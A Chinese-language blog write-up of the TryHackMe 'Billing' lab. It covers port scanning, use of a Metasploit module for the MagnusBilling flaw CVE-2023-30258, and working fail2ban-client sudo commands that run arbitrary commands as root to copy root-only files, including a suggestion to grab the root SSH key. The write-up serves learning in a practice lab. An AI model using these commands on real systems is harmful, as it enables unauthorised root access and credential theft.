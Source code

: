 ```yaml
---
layout: post
title:  "Writeup | Billing"
date:   2 July 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
本篇是關於TryHackMe上的Challenge: [Billing](https://tryhackme.com/room/billing) 我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度



### Step 1. Nmap

```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 91:a5:e6:d7:35:fa:55:86:59:08:2b:37:0a:18:cf:a7 (ECDSA)
|_  256 d4:91:a3:93:ea:71:c6:84:b3:f5:dc:ec:50:1a:a5:c3 (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.164.169/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



### Step 2. Web(80)
- 發現一個login界面，並且通過nmap結果得知有在運行mysql
- 可以嘗試看看SQLi，但首先可以先利用忘記密碼的功能來獲得已存在的郵件地址
- 但爆破了一下發現還不知道mail host不清確定是什麼，還是返回先去測試看看 SQLi
- OK, 用 sqlmap 爆破了一下發現有Firewall/IPS，然後IP被封鎖了 :D
- 發現port 5038並且是 Asterisk Call Manager，並使用Asterisk AMI

```bash
└─# nc 10.10.164.169 5038
Asterisk Call Manager/2.10.6
Action: Login
Username: admin
Secret: amp111

Response: Error
Message: Authentication failed
```

- 試了幾次之後也發現IP被封鎖了 :D
- 代表絕對不是通過error-based方法
- 查了一下 Asterisk Call Manager 和 MagnusBilling 發現後者有[CVE-2023-30258](https://www.cve.org/CVERecord?id=CVE-2023-30258)，並且用metasploit查有可以直接使用的module
- `linux/http/magnusbilling_unauth_rce_cve_2023_30258` 成功 exploit 獲得 user flag (asterisk)




### Step 3. 提權
- sudo -l 發現了可以利用的 `NOPASSWD: /usr/bin/fail2ban-client` 和 `Defaults!/usr/bin/fail2ban-client !requiretty`。
- 後者表示不需要TTY(交互式shell)，表示我們用metasploit獲得的shell就能exploit(實際上也沒辦法獲得.ssh)

```bash
Matching Defaults entries for asterisk on ip-10-10-114-12:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-114-12:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

- 接著上Google查 fail2ban-client privilege escalation: [fail2ban](https://github.com/rvizx/fail2ban) 和 [Fail2Ban 0.11.2 Privilege Escalation / Command Execution](https://packetstorm.news/files/id/189989/)
- 前者的script行不通,改用後者手動操作

```bash
sudo /usr/bin/fail2ban-client restart
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'" 
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

- 成功獲得root.txt，若是要獲得root shell的話把root.txt改為/root/.ssh/.id_rsa即可




### 總結
總的來說billing算是很簡單的靶機，user權限通過metasploit，而root權限通過sudo -l獲得特殊權限。

另外，fail2ban 需要理解一下，簡單來說就是可以看作一個簡易IPS，可以封鎖惡意的IP，或觸發自定義的行為，而正是因為可以執行自定義行為所以我們將觸發要執行的命令改為獲得root權限或複製root權限下的文件，再通過手動觸發封鎖的行為來進一步提權


## 學習資料
1. [TryHackMe Challenge: Billing](https://tryhackme.com/room/billing)
2. [Fail2Ban 0.11.2 Privilege Escalation / Command Execution](https://packetstorm.news/files/id/189989/)
3. [Github \| fail2ban](https://github.com/rvizx/fail2ban)

</div>
</body>
</html>
